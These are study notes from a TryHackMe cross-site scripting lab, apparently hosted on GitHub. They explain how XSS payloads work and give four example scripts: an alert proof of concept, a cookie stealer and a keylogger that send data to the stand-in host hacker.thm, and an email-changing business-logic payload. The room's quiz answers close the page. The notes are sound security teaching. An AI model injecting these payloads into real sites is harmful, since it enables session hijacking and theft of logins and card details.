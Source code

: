 # [XSS Payloads](https://tryhackme.com/room/xssgi)

## What is a Payload?

- In XSS, the payload is the ***JavaScript code*** we wish to be executed on the targets computer. There are two parts to the payload, **<ins>the Intention and the Modification</ins>**.


- `The intention` is what you wish the JavaScript to actually do (some examples below), and `the modification` is the changes to the code we need to make it execute as every scenario is different.


## Here are some examples of XSS intentions 
- See all below mentioned scripts [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20XSS%20Payloads/Payload%20List)

### 1. Proof of Concept (PoC)

- This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an ***alert box*** to pop up on the page with a string of text, for example:

  [<script>alert('XSS');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/1.%20POC.js)

### 2. Session Stealing

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, **base64** encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


  [<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/2.%20SessionStealing.js)
  
### 3. Key Logger
  
- The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted **user logins or credit card details**.
  
  [<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/3.%20KeyLogger.js)
  
### 4. Business Logic

- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  [<script>user.changeEmail('attacker@hacker.thm');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/4.%20BusinessLogic.js)

- Now that the email address for the account has changed, the attacker may perform a reset password attack.

# Answer the questions below

1. Which document property could contain the user's session token?
```
document.cookie
```

2. Which JavaScript method is often used as a Proof Of Concept?
```
alert
```

